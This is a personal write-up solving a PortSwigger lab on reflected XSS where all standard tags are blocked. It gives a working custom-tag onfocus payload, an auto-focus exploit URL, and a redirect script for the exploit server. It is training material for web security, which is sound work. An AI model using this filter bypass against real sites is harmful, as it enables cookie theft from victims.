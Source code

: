 ```yaml
---
title: LAB 0.12
aliases:
  - LAB 0.12
tags:
  - XSS
  - Labs
  - Reflected
  - Practitioner
description: "Lab: Reflected XSS into HTML context with all tags blocked except custom ones"
---
```

# Lab: Reflected XSS into HTML context with all tags blocked except custom ones
---
[LAB](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts `document.cookie`.

# Solution
---
## 1. **Initial Test with a Custom Tag**

Access the lab and enter `<hello>` in the search bar. The response confirms the tag is reflected in the DOM:

![[images/Pasted image 20250125215534.png]]

![[images/Pasted image 20250125215617.png]]
## 2. **Create the Payload**

Inject the following payload in the search bar:

```html
<hello onfocus="alert(document.cookie)" id="x" tabindex="1">
```

Explanation:

- **`onfocus`**: Executes JavaScript when the element gains focus.
- **`alert(document.cookie)`**: Displays the document's cookies.
- **`id="x"` and `tabindex="1"`**: Allows auto-focus using the `#` fragment.

Inspect the DOM to confirm the injection:

![[images/Pasted image 20250125215827.png]]

## 3. **Craft the Exploit URL**

Append `#x` to your lab URL to activate the focus on load:

```html
https://0ae200f90426d234827e203500c60050.web-security-academy.net/?search=<hello+onfocus%3D"alert(document.cookie)"+id%3D"x"+tabindex%3D"1">#x
```

## 4. **Deliver the Exploit**

1. Click **"Go to exploit server"**.
2. Add this script to the body:
    
    ```html
    <script>
    location = 'https://0ae200f90426d234827e203500c60050.web-security-academy.net/?search=<hello+onfocus%3D"alert(document.cookie)"+id%3D"x"+tabindex%3D"1">#x';
    </script>
    ```
    
3. Click **"Deliver exploit to victim"**.

![[images/Pasted image 20250125220313.png]]
---
